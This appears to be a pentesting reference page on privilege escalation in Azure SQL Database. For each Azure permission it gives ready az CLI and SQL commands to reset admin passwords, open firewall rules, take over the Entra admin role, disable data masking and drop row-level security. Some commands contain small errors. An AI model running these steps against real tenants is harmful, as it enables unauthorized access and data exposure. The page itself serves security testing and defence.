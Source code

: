 # Az - SQL Database Privesc

## SQL Database Privesc

For more information about SQL Database check:

[[../az-services/az-sql.md]]

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

With these permissions, a user can perform privilege escalation by updating or creating Azure SQL servers and modifying critical configurations, including administrative credentials. This permission allows the user to update server properties, including the SQL server admin password, enabling unauthorized access or control over the server. They can also create new servers, potentially introducing shadow infrastructure for malicious purposes. This becomes particularly critical in environments where "Microsoft Entra Authentication Only" is disabled, as they can exploit SQL-based authentication to gain unrestricted access.

```bash
# Change the server password
az sql server update \
  --name <server_name> \
  --resource-group <resource_group_name> \
  --admin-password <new_password>

# Create a new server
az sql server create \
  --name <new_server_name> \
  --resource-group <resource_group_name> \
  --location <location> \
  --admin-user <admin_username> \
  --admin-password <admin_passwor d>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
  --enable-public-network true
```

Furthermore, with the permissions you can enalbe the assign identity, an opertate with the managed identity attached to the server. For example here with a managed identity that can access Azure Storage:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
    --assign_identity
```
```sql 
CREATE DATABASE SCOPED CREDENTIAL [ManagedIdentityCredential]
WITH IDENTITY = 'Managed Identity';
GO


CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
    TYPE = BLOB_STORAGE,
    LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
    CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
    BULK 'message.txt',
    DATA_SOURCE = 'ManagedIdentity',
    SINGLE_CLOB
) AS DataFile;
GO
```

### `Microsoft.Sql/servers/firewallRules/write`

An attacker can manipulate firewall rules on Azure SQL servers to allow unauthorized access. This can be exploited to open up the server to specific IP addresses or entire IP ranges, including public IPs, enabling access for malicious actors. This post-exploitation activity can be used to bypass existing network security controls, establish persistence, or facilitate lateral movement within the environment by exposing sensitive resources.

```bash
# Create Firewall Rule
az sql server firewall-rule create \
    --name <new-firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <start-ip-address> \
    --end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
    --name <firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <new-start-ip-address> \
    --end-ip-address <new-end-ip-address>
```

Additionally, `Microsoft.Sql/servers/outboundFirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

With this permission, you can create, modify, or delete IPv6 firewall rules on an Azure SQL Server. This could enable an attacker or authorized user to bypass existing network security configurations and gain unauthorized access to the server. By adding a rule that allows traffic from any IPv6 address, the attacker could open the server to external access."

```bash
az sql server firewall-rule create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <rule_name> \
  --start-ip-address <start_ipv6_address> \
  --end-ip-address <end_ipv6_address>
```

Additionally, `Microsoft.Sql/servers/ipv6FirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

With this permissions you can privesc in an Azure SQL Server environment accessing to SQL databases and retrieven critical information. Using the the command below, an attacker or authorized user can set themselves or another account as the Azure AD administrator. If "Microsoft Entra Authentication Only" is enabled you are albe to access the server and its instances. Here's the command to set the Azure AD administrator for an SQL server:

```bash
az sql server ad-admin create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --display-name <admin_display_name> \
  --object-id <azure_subscribtion_id>
```

### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

With these permissions, you can configure and enforce "Microsoft Entra Authentication Only" on an Azure SQL Server, which could facilitate privilege escalation in certain scenarios. An attacker or an authorized user with these permissions can enable or disable Azure AD-only authentication.

```bash
#Enable
az sql server azure-ad-only-auth enable \
  --server <server_name> \
  --resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
  --server <server_name> \
  --resource-group <resource_group_name>
```

### Microsoft.Sql/servers/databases/dataMaskingPolicies/write
Modify (or disable) the data masking policies on your SQL databases.

```bash
az rest --method put \
  --uri "https://management.azure.com/subscriptions/<your-subscription-id>/resourceGroups/<your-resource-group>/providers/Microsoft.Sql/servers/<your-server>/databases/<your-database>/dataMaskingPolicies/Default?api-version=2021-11-01" \
  --body '{
    "properties": {
      "dataMaskingState": "Disable"
    }
  }'
```

### Remove Row Level Security
If you loggin as admin, you can remove the policies of the admin itself and other users.

```sql
DROP SECURITY POLICY [Name_of_policy];
```

